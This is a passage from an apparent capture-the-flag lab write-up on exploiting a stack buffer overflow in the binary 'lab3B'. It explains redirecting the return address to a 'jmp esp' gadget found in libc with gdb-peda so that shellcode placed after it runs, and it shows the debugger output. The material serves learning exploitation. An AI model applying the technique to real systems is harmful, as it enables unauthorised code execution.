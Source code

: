 Now, we have the control of the return address, we also can put lots of data after the return address. Here, we could add our shellcode right after the return address and overwrite the return address with a pointer to the instruction `jmp esp`.

By doing it that way, we will avoid using a massive amount of NOP instructions and we won't have to try multiple return address once outside `gdb`. Indeed, don't forget that the stack addresses will be different outside `gdb`, if we hardcode a stack address as return address, the exploit could fail.

However, do we have `jmp esp` somewhere in the executable. `gdb` with PEDA allows use to use a function called `jmpcall` that search for JMP/CALL instructions in memory.

```nasm
gdb-peda$ jmpcall
0x8048866 : call eax
0x80488a3 : call edx
0x80488ef : call eax
0x8048c5f : jmp [edx]
0x8048c9f : call [ecx]
0x8049866 : call eax
0x80498a3 : call edx
0x80498ef : call eax
0x8049c5f : jmp [edx]
0x8049c9f : call [ecx]
```

No luck... but let's check how `jmpcall` works:

```nasm
gdb-peda$ help jmpcall
Search for JMP/CALL instructions in memory
Usage:
    jmpcall (search all JMP/CALL in current binary)
    jmpcall reg [mapname]
    jmpcall reg start end
```

Ah! It only scanned the binary! Given *libc* is likely to be loaded in our process, let's find its address ranges and try again.

```nasm
gdb-peda$ info file
Symbols from "/levels/lab03/lab3B".
Native process:
    Using the running image of child process 2062.
    While running this, GDB does not access memory from...
Local exec file:
    `/levels/lab03/lab3B', file type elf32-i386.
    Entry point: 0x8048800
    0x08048134 - 0x08048147 is .interp

...[snip]...

    0xb7e3a420 - 0xb7f6bb6e is .text in /lib/i386-linux-gnu/libc.so.6

...[snip]...

gdb-peda$ jmpcall esp 0xb7e3a420 0xb7f6bb6e
0xb7f0b1cd : jmp esp
```
